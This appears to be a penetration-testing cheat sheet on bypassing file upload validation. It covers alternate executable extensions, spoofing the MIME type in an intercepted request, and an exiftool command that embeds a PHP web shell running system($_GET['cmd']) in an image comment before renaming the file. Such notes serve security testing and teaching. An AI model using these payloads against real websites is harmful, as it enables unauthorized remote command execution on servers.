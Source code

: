 # File upload bypass
File upload mechanisms are very common on websites, but sometimes have poor validation. This allows attackers to upload malicious files to the web server, which can then be executed by other users or the server itself. This can also happen in authenticated areas of a website (e.g. installing WordPress plugins)

## File extension
Developers may blacklist specific file extensions and prevent users from uploading files with extensions that are considered dangerous. This can be bypassed by using alternate extensions or even unrelated ones. For example, it might be possible to upload and execute a `.php` file simply by renaming it `file.php.jpg`.

### Alternate extensions
Type | Extension
---- | ---------
php | phtml, .php, .php3, .php4, .php5, and .inc
asp | asp, .aspx
perl | .pl, .pm, .cgi, .lib
jsp | .jsp, .jspx, .jsw, .jsv, and .jspf
Coldfusion | .cfm, .cfml, .cfc, .dbm

## MIME type
Blacklisting MIME types is also a method of file upload validation. It may be bypassed by intercepting the POST request on the way to the server and modifying the MIME type.

Normal php MIME type:
```
Content-type: application/x-php
```
Replace with:
```
Content-type: image/jpeg
```

## PHP getimagesize() 
For file uploads which validate image size using php `getimagesize()`, it may be possible to execute shellcode by inserting it into the Comment attribute of Image properties and saving it as `file.jpg.php`.

You can do this with gimp or exiftools:
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
mv file.jpg file.php.jpg
```
I'm not sure why some tutorials have the php extension first while others have it second. Try both.

## Further reading
* [Injecting malicious PHP into an image file](http://techyzilla.blogspot.com/2012/07/injecting-malicious-php-in-to-an-image-file.html)
